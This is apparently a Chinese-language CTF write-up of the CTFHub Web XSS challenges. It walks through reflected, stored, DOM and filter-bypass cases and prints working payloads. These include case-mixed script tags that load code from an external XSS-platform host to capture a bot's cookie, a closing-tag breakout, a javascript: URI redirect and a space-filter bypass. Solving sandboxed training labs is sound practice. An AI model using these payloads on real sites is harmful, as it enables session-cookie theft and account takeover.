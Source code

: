 ```yaml
---
layout: post
title: CTFHub Web XSS
subtitle: CTFHub Web XSS
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. XSS

### 1.1. 反射型

![image](https://img.ghostliner.top/vPYvXZ.png)

```html
<script>
  alert(123);
</script>
#成功
```

注册 XSS 平台，填入 `<sCRiPt sRC=//xs.pe/s2x></sCrIpT>` 复制地址栏地址 sendURLtoBot

查看访问记录的 cookie

![image](https://img.ghostliner.top/gCTZA2.png)

### 1.2. 存储型

```html
<script>alert(123)</script> #成功
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/3bfA5q.png)

### 1.3. DOM 反射

```html
<script>
  alert(123);
</script>
#失败，发现是与原始script闭合导致
```

![image](https://img.ghostliner.top/MzoYuf.png)![image](https://img.ghostliner.top/bXxHxO.png)

```html
#补全，成功
</script><script>alert(123)</script>
</script><sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9aszLX.png)

### 1.4. DOM 跳转

查看页面代码，可知需要构造 `?jumpto=xxx`

![image](https://img.ghostliner.top/JQjr1V.png)

```uri
http://challenge-e727a1e5d8b21242.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(123)
```

成功

### 1.5. 过滤空格

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/9LDH67.png)

```html
<sCRiPt/SrC=//xs.pe/s2x> #成功
```

![image](https://img.ghostliner.top/tzZv2B.png)

### 1.6. 过滤关键词

测试过滤 ` script``img``onerror `

![image](https://img.ghostliner.top/8Rpv7u.png)

大写绕过

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![image](https://img.ghostliner.top/o8kMjK.png)
